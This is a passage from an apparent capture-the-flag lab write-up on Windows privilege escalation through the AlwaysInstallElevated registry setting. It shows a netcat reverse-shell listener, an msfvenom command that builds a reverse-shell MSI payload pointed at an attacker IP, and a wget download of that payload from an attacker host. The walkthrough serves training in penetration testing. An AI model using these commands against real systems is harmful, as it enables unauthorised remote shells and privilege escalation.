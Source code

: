 <img width="431" height="160" alt="image" src="https://github.com/user-attachments/assets/2fa5a318-6bc7-49a4-9f3b-50fad165d46b" />


```bash
:~# apt install rdesktop
```

```bash
:~# rdesktop xx.xxx.xx.xxx
```

<img width="688" height="317" alt="image" src="https://github.com/user-attachments/assets/ceac5eb1-d409-4bbe-85d5-ca3c10bad390" />


<img width="814" height="374" alt="image" src="https://github.com/user-attachments/assets/691a7cae-8a19-4da2-8d59-c2e358c64baf" />


```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on xx.xxx.xx.xxx 49704
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

<br>
<h2>Task 8 . 𝗥𝗲𝗴𝗶𝘀𝘁𝗿𝘆 - AlwaysInstallElevated<a id='8'></h2>

<p><em>Answer the question below</em></p>

<p>8.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

```bash
C:\PrivEsc>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```bash
C:\PrivEsc>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

<img width="878" height="242" alt="image" src="https://github.com/user-attachments/assets/b9b0978b-6233-4cc8-b08e-02692753d0c4" />


```bash
:~/WindowsPrivEsc# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.201.53.119 LPORT=1234 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

```bash
PS C:\PrivEsc> wget http://xx.xxx.x.xx:8000/reverse.msi -o reverse.msi
```
